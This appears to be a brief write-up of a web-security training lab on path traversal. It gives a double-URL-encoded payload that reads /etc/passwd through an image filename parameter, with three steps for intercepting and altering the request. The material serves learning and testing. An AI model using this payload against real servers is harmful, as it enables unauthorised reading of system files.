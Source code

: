 # Lab 04

## Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

**Vulnerable Path:** ..%252f..%252f..%252fetc/passwd

**Step-by-step:**
1. Intercept product
2. FORWARD until get vulnerable parameter (/image?filename=.jpg)
3. Replace .jpg with ..%252f..%252f..%252fetc/passwd

![e7d4498fa84b4f728acef2c18442e6dd](https://user-images.githubusercontent.com/44063862/106375459-24aea880-63c7-11eb-97d3-8cbe4071b6da.png)
